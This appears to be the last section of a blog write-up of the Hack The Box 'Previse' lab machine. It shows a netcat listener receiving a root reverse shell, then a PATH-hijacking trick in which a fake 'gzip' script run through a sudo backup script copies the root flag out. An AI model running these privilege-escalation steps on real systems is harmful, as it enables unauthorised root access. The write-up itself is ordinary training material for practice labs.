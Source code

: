 Catching the reverse shell with our listener we get a root shell!

{{< highlight bash >}}
nc -lvnp 9001
listening on [any] 9001 ...
connect to [0.0.0.0] from (UNKNOWN) [10.10.11.104] 41578
sh: 0: can't access tty; job control turned off
$ whoami
root
{{< /highlight >}}

With this we now own the system!

# root.txt

Following the privilege escalation technique, we can simply cat the root.txt flag, however, an alternative `CTF` style method to obtain the flag is to echo it into a file without the need of spawning a new shell. There are multiple ways to do this, however I found using the 'cp' command ineffective as the files permissions were still owned by root.

We will use the same script as last time however instead of a reverse shell we will echo the root flag to a file in our current directory.

{{< highlight bash >}}
File: gzip
#!/bin/bash
echo "$(</root/root.txt.txt)" > /tmp/newpath/flag.txt
{{< /highlight >}}

Running the script:

{{< highlight bash >}}
chmod +x gzip
sudo /opt/scripts/access_backup.sh
{{< /highlight >}}

The script succesfully executes and we recieve the root flag in the /tmp/newpath/ directory as flag.txt!
We can cat the contents of the file as the m4lwhere user.

{{< highlight bash >}}
cat flag.txt
[redacted]
{{< /highlight >}}

# Conclusion
  
  
Box by m4lwhere | <a href="https://app.hackthebox.com/users/107145">Give Respect</a>  
fun box.
![pwned](/htbprevise/pwned.png)

---------------- 

Share via <a href="https://torry.link/index/previse">link</a>  
Return to the <a href="https://torrytw.ooo/index/">Index</a>
